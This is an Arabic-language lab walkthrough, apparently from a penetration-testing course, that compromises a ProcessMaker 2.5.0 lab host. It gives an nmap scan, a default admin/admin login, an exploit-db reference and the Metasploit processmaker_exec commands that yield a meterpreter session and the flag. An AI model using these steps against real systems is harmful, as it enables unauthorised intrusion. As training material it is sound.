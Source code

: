 اللاب الثالث في هذا القسم هو  

Windows: Workflow Platform
--------------------------|  

طبعا في هذا اللاب راح نستغل برنامج معين اسمه processmaker  

طبعا نشوف انه معطينا التارقت راح نفحصه بداية  
```bash
nmap -sV -sC -vvv -p- 10.0.0.168  
```  

طبعا الي يهمنا منها بورت 80 خلونا ندخل على المتصفح ونفتح الايبي  

نشوف انه عطانا صفحة login طبعا حنا مامعنا لايوزر ولا باسورد راح نبحث نشوف بقوقل هل فيه ديفولت يوزر وباسورد ولا لا  

ف يوم بحثنا بقوقل بالنص هذا 
```bash
processmaker default credentials  
```  

قالنا انه اليوزر والباسورد الديفولت هي  
```bash
username: admin  
password: admin  
```  

نشوف انه سجل لوقن طبعا خلونا نشوف وش اصدار الخدمة هذي  

نلاحظ يسار تحت فيه خيار system information  

ندخله ونشوف انه كاتب لنا اصدار النسخه من هذا البرنامج والاصدار هو 2.5.0 خلونا نبحث عن استغلال في قوقل  
```bash
processmaker 2.5.0 exploi  
```  

ونشوف انه عطانا استغلال معين والي هو هذا  
[exploit](https://www.exploit-db.com/exploits/29325)  

طبعا هذا الاستغلال زي ماهو واضح من موقع الـ exploitdb نشوف انه موجود له موديول على الـ metasploit  

خلونا نستغله الان  
```bash
use exploit/multi/http/processmaker_exec  
set RHOSTS 10.0.0.168  
exploit  
```  

ونشوف انه عطانا meterpreter session  

مطلوب مننا نقرا الفلاق ف ندور عليه ونحصله في اول مسار وهو الـ /  
```bash
cd /  
dir  
cat flag.txt  
```  

الى هنا انتهى اللاب نشوف الي بعده 

---